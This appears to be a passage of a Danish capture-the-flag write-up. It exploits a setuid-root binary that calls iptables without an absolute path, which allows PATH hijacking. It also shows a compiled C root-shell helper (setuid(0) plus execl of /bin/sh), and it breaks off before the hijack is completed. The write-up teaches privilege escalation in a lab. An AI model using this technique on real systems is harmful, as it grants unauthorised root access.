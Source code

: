 ```shell
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
storenisse@nisseoenskelisten:~$
```

Første fil kender vi, men nummer 2 på listen bruges åbenbart af "DEV" mode til at slå firewall fra. Lad os se:

```shell
storenisse@nisseoenskelisten:~$ ls -al /var/www/html/nissetestprojekt2020/disable_firewall.elf
-rwsr-xr-x 1 root root 14424 Nov 11 18:19 /var/www/html/nissetestprojekt2020/disable_firewall.elf
```

Lad os se nærmere på filen:

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv)
{
  if (setuid(0) == -1)
  {
	  printf("setUID ERROR");
	  return 1;
  }
  system("iptables -P INPUT ACCEPT");
  return 0;
}
```

Ok, så der sættes til UID #0 og derefter kører "iptables" for at åbne firewall. Det ser da fint ud, eller?

Der er en lille fejl: Der bruges ikke en absolut sti til "iptables", og vi kan derfor narre programmet til at starte vores eget program i stedet - som UID #0 (root). Vi skal bare navngive vores eget program "iptables". Det er vigtigt at forstå at havde stien været en absolut sti, dvs.:

```text
/usr/sbin/iptables
```

så havde man ikke kunne udnytte dette.

<br>

Vi compiler et SUID program på host:

```shell
kali@kali:~$ cat suid.c 
int main(void) {
    setgid(0); setuid(0);
    execl("/bin/sh", "sh", 0);
}
kali@kali:~$
kali@kali:~$ gcc -Wl,--hash-style=both -o suid64.elf suid.c
suid.c: In function ‘main’:
suid.c:3:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    3 |     setgid(0); setuid(0);
      |     ^~~~~~
suid.c:3:16: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setgid(0); setuid(0);
      |                ^~~~~~
suid.c:4:5: warning: implicit declaration of function ‘execl’ [-Wimplicit-function-declaration]
    4 |     execl("/bin/sh", "sh", 0);
      |     ^~~~~
```
